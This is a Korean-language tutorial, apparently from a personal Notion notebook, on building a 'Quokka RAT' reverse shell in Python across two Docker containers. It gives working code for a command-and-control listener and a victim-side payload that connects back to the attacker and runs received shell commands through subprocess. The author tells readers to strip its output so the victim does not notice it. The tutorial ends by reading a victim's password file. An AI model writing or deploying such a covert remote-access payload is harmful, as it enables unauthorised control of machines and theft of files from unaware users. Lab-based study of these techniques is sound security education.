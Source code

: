 # Quokka RAT : subprocess 리버스 쉘 만들기

<aside>
⚠️ author : 전재호(agamtt) 2024-03-17

</aside>

<aside>
💡 **사전지식필요
[소켓, 포트, IP, 인바운드, 아웃바운드, 방화벽, 포트포워딩](%E1%84%89%E1%85%A9%E1%84%8F%E1%85%A6%E1%86%BA,%20%E1%84%91%E1%85%A9%E1%84%90%E1%85%B3,%20IP,%20%E1%84%8B%E1%85%B5%E1%86%AB%E1%84%87%E1%85%A1%E1%84%8B%E1%85%AE%E1%86%AB%E1%84%83%E1%85%B3,%20%E1%84%8B%E1%85%A1%E1%84%8B%E1%85%AE%E1%86%BA%E1%84%87%E1%85%A1%E1%84%8B%E1%85%AE%E1%86%AB%E1%84%83%E1%85%B3,%20%E1%84%87%E1%85%A1%E1%86%BC%E1%84%92%E1%85%AA%E1%84%87%E1%85%A7%202a056421d2234dd9aaf23db548b99102.md)**

[Socket / IP / Port / network](Socket%20IP%20Port%20network%20e18b03543f5e46999042b2a19b383d55.md)

[약속된 IP 주소](%E1%84%8B%E1%85%A3%E1%86%A8%E1%84%89%E1%85%A9%E1%86%A8%E1%84%83%E1%85%AC%E1%86%AB%20IP%20%E1%84%8C%E1%85%AE%E1%84%89%E1%85%A9%209c5773c54bb9422d8297f7dc98d2e2df.md)

[컨테이너 두개로 python socket 실습](%E1%84%8F%E1%85%A5%E1%86%AB%E1%84%90%E1%85%A6%E1%84%8B%E1%85%B5%E1%84%82%E1%85%A5%20%E1%84%83%E1%85%AE%E1%84%80%E1%85%A2%E1%84%85%E1%85%A9%20python%20socket%20%E1%84%89%E1%85%B5%E1%86%AF%E1%84%89%E1%85%B3%E1%86%B8%204dfcf68e338d434fbbcb9d9ebaee562d.md)

위 문서를 숙지해야 이해할 수 있습니다.

</aside>

우선 hacker 의 ip주소를 조사해봅시다.

- ifconfig 명령어를 사용하면 ip 주소를 알 수 있습니다.
- net-tools 를 설치하면 ifconfig 를 사용할 수 있습니다.

```bash
# hacker 의 컴퓨터에서,
sudo apt update && sudo apt install -y net-tools
```

이제 ifconfig 를 실행해서 ip주소를 알아냅니다.

- lo 는 local 의 약자로, 그냥 자기 자신을 의미하니, 이건 아닙니다.
- eth0 는 인터페이스명이고, inet 뒤에 있는 것이 자신의 ip 주소입니다.

![Untitled](Untitled%20586.png)

C2서버의 ip 주소가 172.17.0.3 임을 알았습니다.

(본인의 컴퓨터에서는 다를 수도 있습니다. 도커 컨테이너의 IP 주소는 도커 컨테이너가 생성될 때, 사용중이지 않은 IP 주소가 아무거나 지정됩니다.)

hacker 의 컨테이너에 listener.py 라는 파일을 만들고 아래와 같이 코딩합니다.

- 모든 IP 에서 연결요청이 들어오는 것을 허용하기 위해, 0.0.0.0 을 입력합니다.
    - 참고 :
- 해커의 C2 서버 컨테이너를 생성할 때, 포트포워딩한 포트 중 도커의 포트를 입력합니다.
    - 호스트포트:도커포트 형식입니다.
    - 외부에서 내 컴퓨터(호스트)의 포트를 거쳐서 도커 컨테이너로 연결되는 것이 아니고, 내 컴퓨터 내부에 있는 컨테이너에서 접속하는 것이라서 입니다.

![Untitled](Untitled%20587.png)

```python
import socket

host = '0.0.0.0'
port = 8282

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.bind((host,port))

s.listen(1)
print(f"Listening for incoming connections on {host}:{port}...")
conn, addr = s.accept()
print(f"Connection established with {addr}")

while True:
    command = input("Enter Message: ")
    conn.send(command.encode())
    output = conn.recv(1024).decode()
    print(f'도착 : {output}')

   
 # 연결 닫기
conn.close()
```

피해자 john 의 컴퓨터에 client.py 파일을 만들고, 아래와 같이 코딩합니다.

```python
import socket

host = "172.17.0.3"
port = 8282

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

while True:
    message = s.recv(1024).decode()
    print(f"상대부터 온 메시지 : {message}")

    data = input("당신의 메지를 입력하세요: ")

    s.send(data.encode())ㅅㅅㄷ
```

이제 서버(해커)의 코드를 먼저 실행하고, (listen 하고 있는 상태에서) 클라이언트(john)로 접속합니다.

![Untitled](Untitled%20588.png)

그러면 연결이 수립됨을 확인할 수 있습니다.

![Untitled](Untitled%20589.png)

![Untitled](Untitled%20590.png)

즉, 아래와 같은 두가지의 사실을 알 수 있습니다.

- 서버는 포트를 열면 된다.
- 클라이언트는 서버의 IP와 열린포트번호를 알면 된다.

![Untitled](Untitled%20591.png)

<aside>
💡 연결을 종료하려면 Ctrl + C 를 누르면 됩니다.

</aside>

# subprocess 와 socket 을 연결하기

이제 이 통신 프로그램에 subprocess 로 명령어를 실행하게 하고, 희생자 john 의 컴퓨터에는 아무것도 표시되지 않도록 print() 를 전부 제거합시다. (안그러면 악성코드가 실행되고 있는지 john 이 알게 되니까요)

hacker 의 서버에 이제 c2_listener.py 를 만들고 아래와 같이 코딩합니다.

```python
import socket

host = '0.0.0.0'
port = 8282

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.bind((host,port))

s.listen(1)
print(f"Listening for incoming connections on {host}:{port}...")
conn, addr = s.accept()
print(f"Connection established with {addr}")

while True:
    command = input("Enter Command: ")
    conn.send(command.encode())
    output = conn.recv(1024).decode()
    print(f'recv : {output}')

   
 # 연결 닫기
conn.close()
```

john 의 컴퓨터에는 payload.py 를 만들고 아래와 같이 코딩합니다.

```python
import socket
import subprocess

host = "172.17.0.3"
port = 8282

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

while True:
    command = s.recv(1024).decode()
    output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, text=True)
    result = output.stdout
    if(result==''):
        s.send("success".encode())
    else:
        s.send(result.encode())
```

이제 listener 를 실행한 후, payload 를 실행하면,

![Untitled](Untitled%20592.png)

hacker 는 john 의 컴퓨터의 쉘을 얻습니다.

- john 은 hacker 가 접속한 상태인지 전혀 알지 못합니다.
- hacker 는 원하는 쉘커맨드를 john 의 컴퓨터에서 마음대로 실행할 수 있습니다.
- john 은 포트를 연적이 없고, ip 주소를 hacker 에게 알려준 적이 없습니다.

<aside>
💡 **참고 : subprocess 에서는 cd 명령어를 사용할 수 없습니다.**
subprocess() 함수는 명령어를 실행할 때마다 새로운 터미널을 엽니다. cd 로 디렉토리를 바꾸면, 다시 명령어를 실행할 때에는 다시 원래 디렉토리로 돌아오게 됩니다.

****(아래 참고)

[How to run the cd command in the terminal through Python script?](https://forum.freecodecamp.org/t/how-to-run-the-cd-command-in-the-terminal-through-python-script/511634)

따라서 ls {경로} 를 입력해서 해당 디렉토리의  알아내는 방식으로 사용해야합니다.

</aside>

john 의 컴퓨터가 해킹되었는지 알 수 있게 하기 위해, john 의 컴퓨터의 원하는 위치에 secret_password.txt 라는 파일을 만들었습니다. 이 파일은 john 컴퓨터에 저장되어, john 만 볼 수 있습니다. 

- hacker 는 john 컴퓨터 앞에 있지도 않고, adduser 당시 생성한 비밀번호도 모릅니다.

![Untitled](Untitled%20582.png)

ls 명령어를 이용해서 john 의 컴퓨터를 마음대로 뒤질 수 있습니다.

![Untitled](Untitled%20593.png)

secret_password.txt 라는 누가봐도 훔치기 좋은 파일을 발견한 해커는

cat 명령어를 이용해, secret_password.txt 를 읽습니다.

![Untitled](Untitled%20594.png)

리버스쉘을 이용하여 해킹을 성공했습니다.

참고:

[터미널, 쉘, 쉘 커맨드](%E1%84%90%E1%85%A5%E1%84%86%E1%85%B5%E1%84%82%E1%85%A5%E1%86%AF,%20%E1%84%89%E1%85%B0%E1%86%AF,%20%E1%84%89%E1%85%B0%E1%86%AF%20%E1%84%8F%E1%85%A5%E1%84%86%E1%85%A2%E1%86%AB%E1%84%83%E1%85%B3%20fbc48e2acece4f7c85babccd3f0a9546.md)

[개념 : 리눅스의 디렉토리 구조](%E1%84%80%E1%85%A2%E1%84%82%E1%85%A7%E1%86%B7%20%E1%84%85%E1%85%B5%E1%84%82%E1%85%AE%E1%86%A8%E1%84%89%E1%85%B3%E1%84%8B%E1%85%B4%20%E1%84%83%E1%85%B5%E1%84%85%E1%85%A6%E1%86%A8%E1%84%90%E1%85%A9%E1%84%85%E1%85%B5%20%E1%84%80%E1%85%AE%E1%84%8C%E1%85%A9%202dd6c200fe3046a7998c3a9415fc89ed.md)

[파일 탐색 : ls, cd, clear](%E1%84%91%E1%85%A1%E1%84%8B%E1%85%B5%E1%86%AF%20%E1%84%90%E1%85%A1%E1%86%B7%E1%84%89%E1%85%A2%E1%86%A8%20ls,%20cd,%20clear%204578559f2a884667acf3141c5d2eee0d.md)

[mkdir / cat / rm](mkdir%20cat%20rm%20bdb20bd643a84c4dbf72e61fdfc3ebd9.md)

계속